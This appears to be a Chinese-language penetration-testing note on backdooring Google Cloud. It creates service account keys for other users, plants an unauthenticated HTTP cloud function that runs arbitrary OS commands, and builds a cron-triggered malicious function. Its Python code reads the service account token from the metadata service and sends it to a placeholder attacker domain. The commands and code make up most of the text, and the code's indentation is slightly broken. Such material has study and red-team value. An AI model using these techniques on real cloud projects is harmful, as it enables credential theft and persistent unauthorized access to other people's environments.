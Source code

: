  #### 创建服务帐号密钥
	您可以通过多种方式向 GCP 进行身份验证，其中一种是通过服务帐户密钥。 服务帐户可以有多个与之关联的密钥，每个密钥都可以让您以该用户的身份访问 GCP
	用来自 Rhino Security Labs 的相同漏洞利用脚本来执行此操作。
	● https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py
	如果您使用 gcloud，您可以运行以下命令为其他用户创建服务帐户密钥：
	> gcloud iam service-accounts keys create OUTPUT-FILE--iam-account=IAM_ACCOUNT
	接下来将密钥导入 gcloud，您将能够以该用户身份与 GCP 交互。
	> gcloud auth activate-service-account --key-file=CREDENTIALS-FILE.JSON
	请注意，要运行此命令，您必须设置正确的权限，否则您将被拒绝。 如果您确实拥有正确的权限，您可以对项目中的每个服务帐户进行后门，从而让您轻松访问目标云环境
 #### 云功能
 ##### 未经认证的 HTTP 云函数
	云功能是很好的后门。 您所要做的就是创建一个未经身份验证的云函数，其触发器是一个 HTTP 请求。 接下来，您将云功能设置为执行用户发送给您的任何操作系统命令
![image](/assets/Pentest_Note/master/img/911.png)

	您不想创建新功能，也可以更新另一个云功能来植入您的后门。
	要将此技术与 gcloud 一起使用，只需输入以下命令：
	● 创建一个名为 main.py 的 python 脚本
	> gcloud functions deploy NAME-OF-CLOUD-FUNCTION-HERE --entry-point ENTRY-POINT-HERE --runtime python37 --trigger-http --allow-unauthenticated
 ##### 定时任务
	熟悉 Linux cron ，那么 Google Cloud Scheduler 也是如此。 Linux 恶意软件通常使用 cron 进行持久性，并且可以在云中使用相同的技术
	cron 作业可以用作许多事情的触发器，使用它来发送 Pub/Sub 消息。 设置一个云函数，当它接收到 Pub/Sub 消息时将触发它。 云功能可以做任何你想做的事情，使用它来将服务帐户凭据发送到攻击者的机器。
	这种攻击只涉及三个步骤，如下所示：
	● 创建发布/订阅主题
	● 创建一个 cron 作业任务
	● 创建恶意云功能
	$ gcloud pubsub topics create test
	接下来创建一个 cron 作业，在本例中，我将创建一个每分钟执行一次的 cron 作业。
	此 cron 作业将向 Pub/Sub 主题发布消息，最终触发恶意云功能。
	$ gcloud scheduler jobs create pubsub myjob --schedule "* * * * *" --topic mytopic --message-body "Hello"
	最后创建恶意云函数。 这个函数应该用来做一些恶意行为，在这个例子中它会向攻击者发送一个身份验证令牌
	$ gcloud functions deploy <CLOUD-FUNCTION-NAME> --entry-point <PYTHON-FUNCTION-NAME> --runtime python37 --trigger-topic=<TOPIC-NAME>
	首先，我们点击元数据服务来获取附加的服务帐户身份验证令牌。
	然后我们通过 GET 请求将其发送给攻击者
```python
import requests
import json
def evil_pubsub(event, context):
    """Triggered from a message on a Cloud Pub/Sub topic.
    Args:
    event (dict): Event payload.
    context (google.cloud.functions.Context): Metadata for the event.
    """
    r = requests.get(url = "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token",headers={"Metadata-Flavor":"Google"})
        PARAMS = {"data":r.text}
        requests.get(url="http://<ATTCKER-DOMAIN-HERE>/",params = PARAMS)
```
    
	一旦 cron 运行，它将向 Pub/Sub 发送一条消息。 本地监听此主题，可在触发时获取附加的服务帐户凭据